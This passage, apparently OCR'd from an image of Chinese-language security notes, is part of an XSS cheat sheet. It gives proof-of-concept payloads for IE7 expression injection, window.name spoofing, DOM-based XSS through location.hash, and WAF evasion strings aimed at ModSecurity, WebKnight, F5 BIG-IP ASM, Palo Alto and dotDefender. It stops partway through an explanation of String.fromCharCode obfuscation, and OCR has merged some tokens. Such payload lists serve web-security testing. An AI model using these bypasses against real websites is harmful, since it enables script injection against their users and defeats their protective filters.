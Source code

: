 			expression(open(alert(1)))
			以下POC可以插入到IE7中
			<html>
			    <body>
			    <meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
			    <iframesrc="https://targetwebsite.com">
			    </body>
			    </html>
		(12)Window.name欺骗
			情景：我们用iframe加载一个页面，我们可以控制窗口的名称，这里也可以执行javascript代码
			POC
			<iframesrc=&#039;http://www.target.com?foo="xss  autofocus/AAAAA  onfocus=location=window.name//&#039;
			name="javascript:alert("XSS")"></iframe>
			DOM型XSS
			服务器不支持过滤DOM型的XSS，因为DOM型XSS总是在客户端执行，看一个例子：
			<script>
			    vari=location.hash;
			    document.write(i);
			    </script>
			在一些情况下，反射型XSS可以转换成DOM型XSS：
			http://www.target.com/xss.php?foo=<svg/onload=location=/java/.source+/script/.source+location.hash[1]+/al/.source+/ert/.source+location.hash[2]+/docu/.source+/ment.domain/.source+location.hash[3]//#:()
			上面的POC只在[.+都被允许的情况下适用，可以使用location.hash注入任何不允许的编码
			Location.hash[1] = :  // Defined at the first position after     the hash.
			Location.hash[2]= (  // Defined at the second position after     the has
			Location.hash[3] = ) // Defined     at third position after the hash.
			如果有客户端过滤可能不适用
		(13)ModSecurity绕过
			<scri%00pt>confirm(0);</scri%00pt>
			<a/onmouseover[\x0b]=location=&#039;\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B&#039;>rhainfosec
			参考http://blog.spiderlabs.com/2013/09/modsecurity-xss-evasion-challenge-results.html
			
		5. WEB KNIGHT绕过
			<isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
			<marquee/onstart=confirm(2)>
			F5 BIG IP ASM and Palo ALTO绕过
			<table background="javascript:alert(1)"></table> //IE6或者低版本Opera
			    “/><marquee  onfinish=confirm(123)>a</marquee>
			Dot Defender绕过
			<svg/onload=prompt(1);> 
			<isindex action="javas&tab;cript:alert(1)" type=image>
			
			<marquee/onstart=confirm(2)>

		6. JS还原函数

		JS中的编码还原函数最常用的就是String.fromCharCode了，这个函数用于ascii码的还原，一般来说，这个函数都要配合EVAL来使用才有效果。
		
		在跨站中，String.fromCharCode主要是使到一些已经被列入黑名单的关键字或语句安全通过检测，把关键字或语句转换成为ASCII码，然后再用String.fromCharCode还原，因为大多数的过滤系统都不会把String.fromCharCode加以过滤，例如关键字alert被过滤掉，那就可以这么利用：
		